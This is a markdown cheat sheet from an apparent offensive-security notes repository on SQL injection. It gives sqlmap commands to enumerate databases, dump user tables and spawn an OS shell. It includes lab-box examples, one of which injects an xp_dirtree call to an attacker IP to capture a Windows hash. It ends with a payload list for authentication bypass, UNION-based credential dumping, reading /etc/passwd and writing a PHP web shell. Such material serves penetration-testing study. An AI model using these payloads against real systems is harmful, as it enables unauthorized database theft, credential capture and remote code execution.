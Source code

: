 # SQL Injections

SQL injection refers to attacks against relational databases. Most modern web applications utilize a database structure on the back-end. Such databases are used to store and retrieve data related to the web application, from actual web content to user information and content. 

When user-supplied information is used to construct the query to the database, malicious users can trick the query into being used for something other than what the original programmer intended.


# SQLi Discovery
### Payloads
``` 	
' 	
" 	
# 	
; 	
) 
```

## SQLMap

The easiest way to run it.

1) intercept request in burp.
2) right click 'copy to file'
3) Here file named tosql

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/d5e0080f-9148-467e-b731-d2a09289684b)

### Enumerate user, db

```
sqlmap -r tosql --banner --current-user --current-db --is-dba --batch
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/17061fd0-bc0e-4bd7-a935-289e61d41316)


### Enumerate tables

```
sqlmap -r tosql  --tables -D public
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7c5a02e1-fa0d-4281-892f-a425df00e753)


### Dump table of interest
```
sqlmap -r tosql --dump -T users -D public
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e670f1a5-9664-4523-9517-ac5d91ac3f1e)

### Spawn a shell

```
sqlmap -r tosql --os-shell
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7707e8bc-3a1e-465f-b8ff-28ebf589e2f8)


## Examples

### Union box
linux running mysql

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/df9e7367-c6f6-4ecb-a3cc-4adecc5d4682)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/93eec906-1c0e-4695-91e9-b890e734ad32)

```
' UNION select user();-- -
```

### Giddy
windows mssql
use ; to chain a command to get a responder hash

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/1543d681-30ec-454f-89d8-f3435f5e9d2a)


```
https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=8;%20EXEC%20master..xp_dirtree%20%22\\10.10.14.14\vivig%22;%20--
```
## CheatSheet
More comprehensive can be found Payloadallthethings
SQL Injection
Payload 	Description
### Auth Bypass 	
```
admin' or '1'='1 	Basic Auth Bypass
admin')-- - 	Basic Auth Bypass With comments
```
Auth Bypass Payloads 	
### Union Injection 	
```
' order by 1-- - 	Detect number of columns using order by
cn' UNION select 1,2,3-- - 	Detect number of columns using Union injection
cn' UNION select 1,@@version,3,4-- - 	Basic Union injection
UNION select username, 2, 3, 4 from passwords-- - 	Union injection for 4 columns
```
### DB Enumeration 	
```
SELECT @@version 	Fingerprint MySQL with query output
SELECT SLEEP(5) 	Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- - 	Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - 	List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - 	List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - 	List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- - 	Dump data from a table in another database
```
### Privileges 	
```
cn' UNION SELECT 1, user(), 3, 4-- - 	Find current user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- - 	Find if user has admin privileges
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- - 	Find if all user privileges
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - 	Find which directories can be accessed through MySQL
```
### File Injection 	
```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- - 	Read local file
select 'file written successfully!' into outfile '/var/www/html/proof.txt' 	Write a string to a local file
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- - 	Write a web shell into the base web directory
```

